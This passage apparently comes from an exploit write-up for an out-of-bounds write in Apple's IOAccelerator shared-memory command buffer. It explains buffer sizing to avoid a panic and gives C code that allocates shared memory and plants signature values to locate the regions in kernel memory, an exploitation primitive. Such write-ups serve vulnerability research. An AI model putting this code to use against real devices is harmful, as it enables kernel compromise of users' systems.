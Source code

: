It maximizes address space available for predicting shared-memory locations and ensures any OOB write past the end of cmdbuf lands in immediately adjacent memory region.

When creating shared memory, note that command buffer size was set like this:

```c
cmd1->command.size = (uint32_t)buffer_size - 16;
```

When we previously tried to trigger PoC we used -8 for subtraction. In that case timestamp could be OOB-written by up to 8 bytes and caused panic, so the change prevents that.

Even after shared memory is created, we can trigger OOB write at any time by modifying `cmd1->command.size` and calling `submit_command_buffer`.

To later determine kernel addresses of created shared regions, we wrote special signature at offset +0x1000 when allocating/writing shared memory.

**command buffer  - 0x4142434445464748**

**segment list - 0x5152535455565758**

```cpp

int alloc_shmem_with_sig(uint32_t buffer_size, struct IOAccelDeviceShmemData *cmdbuf, struct IOAccelDeviceShmemData *seglist, uint64_t command_buffer_shmem_sig, uint64_t segment_list_shmem_sig) {
    struct IOAccelDeviceShmemData command_buffer_shmem;
    struct IOAccelDeviceShmemData segment_list_shmem;
    
    kern_return_t kr = IOAccelSharedUserClient2_create_shmem(buffer_size, &command_buffer_shmem);
    if (kr) {
        printf("[-] IOAccelSharedUserClient2_create_shmem: 0x%x (%s)\n", kr, mach_error_string(kr));
        return kr;
    }
    
    kr = IOAccelSharedUserClient2_create_shmem(buffer_size, &segment_list_shmem);
    if (kr) {
        printf("[-] IOAccelSharedUserClient2_create_shmem: 0x%x (%s)\n", kr, mach_error_string(kr));
        return kr;
    }

    // set signature
    *(uint64_t*)(command_buffer_shmem.data + 0x1000) = command_buffer_shmem_sig;
    *(uint64_t*)(segment_list_shmem.data + 0x1000) = segment_list_shmem_sig;
    
    *cmdbuf = command_buffer_shmem;
    *seglist = segment_list_shmem;
    
    submit_args.header.count = 1;
    submit_args.command.command_buffer_shmem_id = command_buffer_shmem.shmem_id;
    submit_args.command.segment_list_shmem_id = segment_list_shmem.shmem_id;

    struct IOAccelSegmentListHeader *slh = segment_list_shmem.data;
    slh->length = 0x100;
    slh->segment_count = 1;
    
    struct IOAccelSegmentResourceListHeader *srlh = (void *)(slh + 1);
    srlh->kernel_commands_start_offset = 0;
    srlh->kernel_commands_end_offset = buffer_size;
    
    // this is just a filler for the first 0x4000 - n bytes, timestamp written in off_timestamp = 8
    struct IOAccelKernelCommand_CollectTimeStamp *cmd1 = command_buffer_shmem.data;
    cmd1->command.type = 2;
    cmd1->command.size = (uint32_t)buffer_size - 16;
    
```